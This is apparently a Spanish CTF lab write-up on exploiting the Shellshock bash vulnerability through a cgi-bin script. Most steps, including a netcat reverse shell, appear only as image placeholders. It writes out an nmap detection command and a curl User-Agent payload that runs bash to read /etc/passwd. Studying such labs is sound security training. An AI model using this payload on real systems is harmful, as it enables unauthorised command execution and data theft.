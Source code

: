 ## **VULNERABILIDAD SHELLSHOCK**

Ahora que vemos que estamos ante un fichero -sh y se trata de una bash, ya que vemos también que la ruta es cgi-bin, podemos intentar explotar la vulnerabilidad shellshock, para colarnos en esa bash y lanzar comandos remotos; para hacer la comprobación lo haremos de esta manera:

![[Pasted image 20240612160105.png]]

Y nos dice que esta bash de la máquina víctima es vulnerable:

![[Pasted image 20240612160111.png]]

Ahora vamos a explotar la vulnerabilidad, ya que existen peticiones especialmente hechas para colar comandos en esta bash vulnerable; y por internet podemos encontrar información:

![[Pasted image 20240612160116.png]]

Y ahora si lanzamos es comando pero pasándole la IP y el cgi-bin/user.sh, podremos lanzar un comando, por ejemplo un whoami:

![[Pasted image 20240612160120.png]]

Pues ahora sabiendo esto, vamos a lanzar la remote shell, para ello nos ponemos por escucha con netcat:

![[Pasted image 20240612160124.png]]

Lanzamos la shell interactiva:

![[Pasted image 20240612160127.png]]

Y nos llega la conexión:

![[Pasted image 20240612160131.png]]

Y por aquí la flag:

![[Pasted image 20240612160138.png]]

# OPCION 2

Para detectar si un target es vulnerable a shellshock, podemos usar este script de nmap pasándole el fichero con extensión .cgi que podremos encontrar dentro de la web:
```bash
nmap --script http-shellshock --script-args “http-shellshock.uri=/gettime.cgi”
192.242.220.3
```

![[Pasted image 20240612160147.png]]

Además de ver que hay un archivo con extensión .cgi:
![[Pasted image 20240612160155.png]]

Si buscamos por internet, vemos un comando para explotar esto mismo y tener ejecución remota de comandos:
![[Pasted image 20240612160201.png]]

```bash
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'" \
http://localhost:8080/cgi-bin/vulnerable
```
Por tanto ejecutamos esto mismo contra la máquina víctima interceptando primero la petición con burp suite:
![[Pasted image 20240612160209.png]]

Y a continuación lanzamos el payload:

![[Pasted image 20240612160212.png]]